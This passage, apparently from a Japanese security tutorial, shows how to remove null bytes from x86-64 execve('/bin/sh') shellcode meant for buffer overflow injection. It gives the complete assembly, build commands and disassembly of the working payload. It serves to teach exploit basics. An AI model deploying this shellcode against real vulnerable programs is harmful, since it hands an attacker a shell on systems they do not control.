 # ナルバイト削除
シェルコードはBOFの脆弱性をついて注入するものですが、もしBOF脆弱性を持つ関数が文字列に関する関数であった場合、ナルバイトが存在すると、それが終端文字と判断されて、入力が打ち切られてしまいます。
つまりシェルコードにナルバイトは存在しないほうが良いのです。

そして、上記シェルコードにはナルバイトが存在します。よってこれを削除しましょう。
ナルバイトが存在する箇所は以下です。
```
401004:       48 b8 2f 62 69 6e 2f    movabs rax,0x68732f6e69622f
40100b:       73 68 00 
```
これはアセンブリにおいて、`rax`へ`/bin/sh`を逆順で与えている命令となりますが、どうやら1バイト足りておらず、ナルバイトが埋め草として使われているようです。この場合`/bin/sh`を等価である`/bin//sh`に書き換えることで対処します。

まずはアセンブリを変更します。
```
;shellcode_x64.asm

global _start

section .text
_start:
	xor rdx, rdx
	push rdx
	mov rax, 0x68732f2f6e69622f ; /bin//sh
	push rax
	mov rdi, rsp

	push rdx
	push rdi
	mov rsi, rsp

	xor rax, rax
	mov al, 0x3b
	syscall
```

次に、アセンブルとリンクをもう一度行って確認してみます。
```
$ nasm -f elf64 shellcode_x64.asm 
$ ld -o shellcode_x64 shellcode_x64.o
$ objdump -D -M intel shellcode_x64

shellcode_x64:     ファイル形式 elf64-x86-64


セクション .text の逆アセンブル:

0000000000401000 <_start>:
  401000:       48 31 d2                xor    rdx,rdx
  401003:       52                      push   rdx
  401004:       48 b8 2f 62 69 6e 2f    movabs rax,0x68732f2f6e69622f
  40100b:       2f 73 68 
  40100e:       50                      push   rax
  40100f:       48 89 e7                mov    rdi,rsp
  401012:       52                      push   rdx
  401013:       57                      push   rdi
  401014:       48 89 e6                mov    rsi,rsp
  401017:       48 31 c0                xor    rax,rax
  40101a:       b0 3b                   mov    al,0x3b
  40101c:       0f 05                   syscall
```
ナルバイトが消えていることが確認できました。
